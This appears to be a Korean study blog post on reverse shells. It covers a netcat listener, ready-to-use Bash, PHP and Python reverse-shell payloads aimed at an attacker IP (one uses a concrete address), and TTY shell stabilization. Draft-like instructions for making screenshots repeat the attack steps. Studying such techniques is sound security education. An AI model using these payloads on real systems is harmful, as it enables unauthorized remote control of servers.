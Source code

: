 ```yaml
---
layout: post
title: "리버스 쉘 (Reverse Shell) 공부"
date: 2025-09-20 17:00:00 +0900
categories: Study 시스템 해킹
---
```


### 1. 개요

리버스 쉘(Reverse Shell)은 공격 대상 서버가 공격자 PC로 직접 쉘을 연결하도록 만드는 공격 기법이다. 방화벽이 외부에서 내부로 들어오는 연결은 차단하지만 내부에서 외부로 나가는 연결은 허용하는 경우가 많다는 점을 이용한다.

---

### 2. 1단계: 리스너 설정

가장 먼저 공격자 PC에서 대상 서버로부터의 연결을 받을 준비를 해야 한다. `netcat`을 이용해 특정 포트를 열고 연결을 기다리는 리스너를 실행한다.
```bash
# 4444번 포트에서 연결을 대기하며 상세 정보를 출력
nc -lvnp 4444
```
*   `-l`: 리스닝 모드
*   `-v`: 상세 정보 출력
*   `-n`: DNS 조회 생략
*   `-p`: 포트 지정

---

### 3. 2단계: 페이로드 실행

대상 서버의 환경에 맞는 페이로드를 실행하여 공격자 PC로 연결을 시도한다. `revshells.com`과 같은 도구를 사용하면 원하는 환경의 페이로드를 쉽게 생성할 수 있다.

*   **Bash:** `bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1`
*   **PHP:** `php -r '$sock=fsockopen("[Attacker IP]",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
*   **Python:** `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("[Attacker IP]",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

---

### 4. 3단계: 쉘 안정화 (Stabilization)

처음 획득한 쉘은 자동 완성이나 `Ctrl+C`가 동작하지 않는 불안정한 쉘(Dumb Shell)이다. 이를 상호작용이 가능한 완전한 TTY 쉘로 업그레이드하는 과정이 필요하다.

[여기에 쉘 안정화 전/후 비교 이미지 삽입]

1.  **TTY 쉘 생성:**
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
2.  **터미널 제어권 확보:**
    ```bash
    # (Ctrl+Z 입력) -> 쉘을 백그라운드로 보냄
    stty raw -echo; fg
    # (Enter 두 번 입력) -> 다시 포어그라운드로 가져옴
    ```
3.  **환경 변수 설정:**
    ```bash
    export TERM=xterm
    export SHELL=bash
    ```

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **쉘 안정화 전/후 비교 이미지 제작**

이 이미지는 제한된 쉘과 완전한 TTY 쉘의 기능적 차이를 명확하게 보여줍니다.

**1. "Before" 이미지 (제한된 쉘)**

1.  공격자 PC에서 `nc -lvnp 4444`로 리스너를 실행하고 대상 서버에서 리버스 쉘 페이로드를 실행하여 쉘을 획득합니다.
2.  획득한 쉘에서 `Tab` 키를 누르거나 `Ctrl+C`를 눌렀을 때 쉘 전체가 종료되어 버리는 현상을 보여줍니다. (예: `^C` 문자가 찍히고 쉘 연결이 끊김)
3.  이 불안정한 상태의 터미널 화면을 스크린샷으로 찍어 **`쉘안정화_전.png`** 로 저장합니다.

**2. "After" 이미지 (안정화된 쉘)**

1.  다시 쉘을 획득한 후, 위 `3. 쉘 안정화` 섹션의 1, 2, 3단계 명령어를 순서대로 모두 실행합니다.
2.  안정화된 쉘에서 `clear` 명령어가 정상적으로 동작하여 화면이 깨끗해지는 것을 보여줍니다.
3.  `ls -l /etc/ap` 까지 입력한 뒤 `Tab` 키를 눌러 `apache2/`로 자동 완성되는 모습을 보여줍니다.
4.  이 모든 기능이 정상적으로 동작하는 터미널 화면을 스크린샷으로 찍어 **`쉘안정화_후.png`** 로 저장합니다.

**3. 최종 이미지 편집**

1.  이미지 편집 프로그램에서 `쉘안정화_전.png`(왼쪽)와 `쉘안정화_후.png`(오른쪽)를 나란히 배치합니다.
2.  각 이미지 위에 "**Before (Dumb Shell)**"과 "**After (Fully Interactive TTY Shell)**" 텍스트를 추가합니다.
3.  **Before** 이미지에서는 `Ctrl+C`로 인해 쉘이 종료되는 부분에 하이라이트를 적용합니다.
4.  **After** 이미지에서는 탭 자동 완성이 성공하거나 `clear` 명령이 실행되는 부분에 하이라이트를 적용하여, 쉘이 완전히 제어 가능해졌음을 시각적으로 강조합니다.
5.  수정된 이미지를 저장하여 게시글에 삽입합니다.

### 시각 자료(이미지) 제작을 위한 스크립트

#### **쉘 업그레이드 전/후 비교 이미지 제작**

이 이미지는 제한된 쉘과 완전한 TTY 쉘의 차이점을 명확하게 보여주는 핵심 자료입니다.

**1. "Before" 이미지 (제한된 쉘)**

1.  (준비) 두 개의 터미널 창을 엽니다. 하나는 **공격자 PC(Attacker)** 다른 하나는 **대상 서버(Target)** 역할입니다.
2.  **공격자 PC** 터미널에서 리버스 쉘 리스너를 실행합니다.
    ```bash
    nc -lvnp 4444
    ```
3.  **대상 서버** 터미널에서 공격자 PC로 리버스 쉘을 연결하는 명령어를 실행합니다.
    ```bash
    bash -i >& /dev/tcp/192.9.200.12/4444 0>&1
    ```
4.  **공격자 PC** 터미널에 연결이 수립되고, `$` 와 같이 매우 단순한 프롬프트가 나타날 것입니다. 이 상태에서 `whoami` 같은 간단한 명령어를 한두 번 실행합니다.
5.  이 단순한 프롬프트가 보이는 **공격자 PC** 터미널 화면을 스크린샷으로 찍어 **`쉘업그레이드_전.png`** 로 저장합니다.

**2. "After" 이미지 (TTY 쉘)**

1.  위 4번 상태의 **공격자 PC** 터미널(리버스 쉘이 연결된 상태)에서, 쉘 업그레이드 명령어를 입력합니다.
    ```bash
    python3 -c "import pty; pty.spawn('/bin/bash')"
    ```
2.  명령어 실행 직후 프롬프트가 `www-data@ubuntu:/var/www/html$` 와 같이 사용자명과 현재 경로가 포함된 완전한 형태로 변경될 것입니다.
3.  변경된 프롬프트가 보이는 **공격자 PC** 터미널 화면을 스크린샷으로 찍어 **`쉘업그레이드_후.png`** 로 저장합니다.

**3. 최종 이미지 편집**

1.  이미지 편집 프로그램(포토샵, 그림판 등)에서 새 캔버스를 엽니다.
2.  왼쪽에 `쉘업그레이드_전.png`를, 오른쪽에 `쉘업그레이드_후.png`를 나란히 배치합니다.
3.  각 이미지 위에 "**Before (Dumb Shell)**"과 "**After (Interactive TTY Shell)**" 텍스트를 추가합니다.
4.  **Before** 이미지에서는 단순한 `$` 프롬프트 부분에 하이라이트를 적용합니다.
5.  **After** 이미지에서는 `python3 -c "..."` 명령어 전체와, 그 결과로 나타난 `www-data@ubuntu:...$` 프롬프트 부분에 하이라이트를 적용하여 원인과 결과를 명확히 보여줍니다.
6.  수정된 이미지를 저장하여 게시글에 삽입합니다.